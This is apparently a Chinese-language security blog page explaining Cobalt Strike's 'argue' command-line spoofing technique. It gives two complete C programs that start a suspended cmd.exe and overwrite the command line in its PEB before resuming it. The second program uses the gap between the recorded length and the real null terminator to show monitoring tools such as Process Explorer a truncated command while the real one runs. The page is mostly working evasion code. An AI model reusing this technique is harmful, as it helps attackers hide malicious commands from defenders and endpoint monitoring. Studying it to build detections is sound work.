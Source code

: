 # CobaltStrike Argue伪装命令

## 简介

在Cobalt Strike 3.13版本的时候引入了一个进程参数欺骗的技术\(虽然现在都4.0了\)，可以使进程在创建时记录的参数与实际运行时不同，windows系统从peb的commandline中读取参数，并对参数做相应的处理，在线程未初始化完成前，我们可以修改参数，并让进程执行它，在操作上几乎与命令行伪装一样，只是有一些流程上的不同，这里不过多赘述详见[伪装命令行规避检测](fake-commandline.md)。



## 利用流程

1. 创建一个挂起的cmd或powershell进程。
2. 读取peb内的RTL\_USER\_PROCESS\_PARAMETERS结构体。
3. 定位到commandline的buffer指针。
4. 修改buffer的存放的commandline。

## 代码实现

```text
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>


typedef DWORD(*pNtQueryInformationProcess) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{

	ULONG lenght = 0;
	HMODULE hModule;
	PROCESS_BASIC_INFORMATION ProcessInformation;
	pNtQueryInformationProcess NtQueryInformationProcess;
	wchar_t CommandLine[] = L"C:\\Windows\\system32\\cmd.exe /c dir";
	//.&& whoami / priv && pause"
	wchar_t CurrentDirectory[] = L"C:\\Windows\\system32\\";

	hModule = LoadLibraryA("ntdll.dll");

	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA(NULL, (LPSTR)"C:\\Windows\\system32\\cmd.exe /c whoami", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	
	RTL_USER_PROCESS_PARAMETERS rupp = { 0 };
	PEB peb = { 0 };

	ReadProcessMemory(pi.hProcess, ProcessInformation.PebBaseAddress, &peb, sizeof(peb), NULL);
	ReadProcessMemory(
		pi.hProcess,
		peb.ProcessParameters,
		&rupp,
		sizeof(RTL_USER_PROCESS_PARAMETERS)
		, NULL);

	WriteProcessMemory(pi.hProcess, (LPVOID)rupp.CommandLine.Buffer, CommandLine, sizeof(CommandLine), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

执行了修改后的参数: 

![](../.gitbook/assets/image%20%28112%29.png)

## 扩展利用

前面我们说了process hacker和process explorer等进程监视工具会从peb内直接读取commandline的内容，这时就有小朋友要问了，那我们这么做不是会被发现吗\(不皮了不皮了\)。

实际上这么做确实会被此类工具发现明显异常，但由于操作系统读取数据和此类工具读取数据存在一定差异，我们可以利用这样的读取差异来隐藏我们真实的参数。

由于进程监视工具\(啃过源码\)会先读取commandline的length，根据length的值来读取commandline.buffer的内容，而操作系统则由是通过'\x00'来判断字符串是否结束。

这时我们可以写入一个比length更长的命令让监视工具的读取不完全，那么我们就可以在此类工具中伪装commandline。

### 代码

```text
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>


typedef DWORD(*pNtQueryInformationProcess) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{

	ULONG lenght = 0;
	HMODULE hModule;
	PROCESS_BASIC_INFORMATION ProcessInformation;
	pNtQueryInformationProcess NtQueryInformationProcess;
	wchar_t CommandLine[] = L"C:\\Windows\\system32\\cmd.exe /c dir . && whoami /priv && pause";

	wchar_t CurrentDirectory[] = L"C:\\Windows\\system32\\";

	hModule = LoadLibraryA("ntdll.dll");

	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA(NULL, (LPSTR)"C:\\Windows\\system32\\cmd.exe /c whoami", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	
	RTL_USER_PROCESS_PARAMETERS rupp = { 0 };
	PEB peb = { 0 };

	ReadProcessMemory(pi.hProcess, ProcessInformation.PebBaseAddress, &peb, sizeof(peb), NULL);
	ReadProcessMemory(
		pi.hProcess,
		peb.ProcessParameters,
		&rupp,
		sizeof(RTL_USER_PROCESS_PARAMETERS)
		, NULL);

	WriteProcessMemory(pi.hProcess, (LPVOID)rupp.CommandLine.Buffer, CommandLine, sizeof(CommandLine), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

### 实现效果

![](../.gitbook/assets/image%20%28111%29.png)

![](../.gitbook/assets/image%20%28109%29.png)

![](../.gitbook/assets/image%20%28110%29.png)



## LINKS

{% embed url="https://app.gitbook.com/@idiotc4t/s/idiotc4t-s-blog/~/drafts/-M9J1qlIVoEe-n1mUrUo/defense-evasion/fake-commandline" %}

{% embed url="https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/" %}





